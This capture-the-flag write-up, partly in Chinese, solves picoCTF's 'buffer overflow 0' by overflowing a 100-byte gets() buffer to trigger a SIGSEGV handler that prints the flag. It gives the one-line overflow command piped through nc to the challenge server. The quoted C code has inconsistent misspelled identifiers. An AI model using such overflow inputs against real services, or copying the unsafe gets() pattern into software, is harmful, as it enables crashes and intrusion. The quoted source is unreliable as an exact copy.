 # buffer overflow 0

## Information

### Description

Smash the stack
Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. And connect with it using:
nc saturn.picoctf.net 51110

### Hints

1. How can you trigger the flag to print?

2. If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

3. Run man gets and read the BUGS section. How many characters can the program really read?

## Solution

1. Discovery
    * vuln: ELF 32-bit 
    * vuln.c: c source code

2. Research
    * 觀察 code 可以從第31行發現 SIGSEV 的 signal handler 被自定義為 **sigsev_handler()**，且該函數會輸出 flag，如何觸發 **sigsegv_handler** 就變成獲取 flag 的關鍵。
        ```c
            ...
            void sigsev_handler(int sig) {
                printf("%s\n", flag);
                fflush(stdout);
                exit(1);
            }
            ...
            int main() {
                ...
                signal(SIGSEV, sigsegv_handler);
                ...
            }
        ```

    * 注意 39-40 行， buffer 被宣告為大小 100 的 char array，意旨大小最多 100 位不包括 '\0'，所以只要使輸入超過 100 大小即可觸發
        * SIGSEV: segmantation violation，是指當一個行程執行了一個無效的記憶體參照，或發生區段錯誤時傳送給它的訊號。
        ```c
            char buf1[100];
            gets(buf1);
        ```

3. Exploitation
    * 觸發 SIGSEV
        ```sh
            $ python -c "print('a'*100)" | nc saturn.picoctf.net 51110
        ```
